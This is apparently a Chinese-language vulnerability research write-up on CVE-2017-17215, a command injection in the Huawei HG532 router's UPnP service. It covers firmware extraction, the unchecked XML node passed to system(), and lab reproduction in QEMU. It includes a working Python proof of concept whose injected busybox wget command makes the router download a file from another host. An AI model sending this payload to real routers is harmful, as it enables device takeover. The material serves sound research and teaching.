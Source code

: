## 漏洞信息

CVE-2017-17215-HG532命令注入漏洞

华为 HG532 系列路由器是一款为家庭和小型办公用户打造的高速无线路由器产品。

漏洞利用的是upnp服务存在的注入漏洞实现任意命令执行。

## poc

```python
import requests

headers = {
    "Authorization": "Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669"
}

data = '''<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox wget -g 172.16.16.17 -l /tmp/1 -r /1;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
</s:Envelope>
'''
requests.post('http://172.16.16.21:37215/ctrlt/DeviceUpgrade_1',headers=headers,data=data)
```

## 分析

使用binwalk解压固件

```
$ binwalk -Me HG532eV100R001C01B020_upgrade_packet.bin
```

-Me选项用于递归扫描提取数据

根据公开的信息可知，漏洞处于upnp服务中，可直接将bin/upnp拖到IDA里面分析，也可以根据poc中的特征字符串`ctrlt`以及`DeviceUpgrade_1`寻找，看该字符串处于哪个可执行程序当中。

```
$ grep -r "ctrlt"
Binary file bin/upnp matches
$ grep -r "DeviceUpgrade"
Binary file bin/upnp matches
$ file bin/upnp
bin/upnp: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-, corrupted section header size
```

定位到upnp，查看得知文件类型是mips 32位的，且格式为大端MSB

扔进ida分析，根据poc，注入点是`<NewStatusURL>`以及`<NewDownloadURL>`，在字符串中找到它们：

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/HG532命令注入-1.png)

查看引用的地方

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/HG532命令注入-2.png)

跳转到调用函数可以看到，程序通过`ATP_XML_GetChildNodeByName`函数获取xml中的`<NewStatusURL>`节点，并且未经过检查就直接与`upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -`拼接使用`system`函数进行执行。

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/HG532命令注入-3.png)

具体来说利用的原理就是首先在`<NewStatusURL>`输入单引号将前面的字符串闭合，然后再注入相应的执行命令即可，如需要执行`ls`命令，则需要做的就是构造`<NewStatusURL>';ls;</NewStatusURL>`节点即可。该节点字符串与`upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r %s -d -`拼接得到`upg -g -U %s -t '1 Firmware Upgrade Image' -c upnp -r ';ls; -d -`，然后执行system调用，实现注入。

## 复现

### 按照以下方式可以实现通信，但是运行mic网络会崩

主要依据[这里](https://github.com/Mosk0ng/pwn4fun/blob/master/days/2020_11_7.md)来配置网络环境

补充：[debian mips qemu镜像链接](https://people.debian.org/~aurel32/qemu/mips/)
选择 debian_squeeze_mips_standard.qcow2和vmlinux-2.6.32-5-4kc-malta下载

虚拟机启动命令:

```
sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap -nographic
```

将固件包传到虚拟机

```
scp -r ./squashfs-root root@虚拟机ip:/root/
```

使用`chroot . sh`切换到该固件的根目录下，根据poc，找一下端口号37215

```
$ grep -r "37215"
Binary file bin/mic matches
```

端口号只出现在mic文件内，所以猜测是mic启动的upnp服务，直接运行`mic`命令。

### 再次尝试

根据https://www.freebuf.com/vuls/160040.html进行配置，但是有一步关闭ens33应为sudo ifdown eth33，再就是最后一步ifup eth1会出错，需要用ifconfig eth0 192.168.0.110 netmask 255.255.255.0再次配置，这里的192.168.0需要参考本机的br0网卡。

复现成功

![](https://space.0bs3rver.workers.dev/0bs3rver/Picture/master//blogimg/HG532命令注入-4.png)



参考：

- [CVE-2017-17215-HG532命令注入漏洞分析](https://xz.aliyun.com/t/4819)
- [通过CVE-2017-17215学习路由器漏洞分析，从入坑到放弃](https://www.freebuf.com/vuls/160040.html)

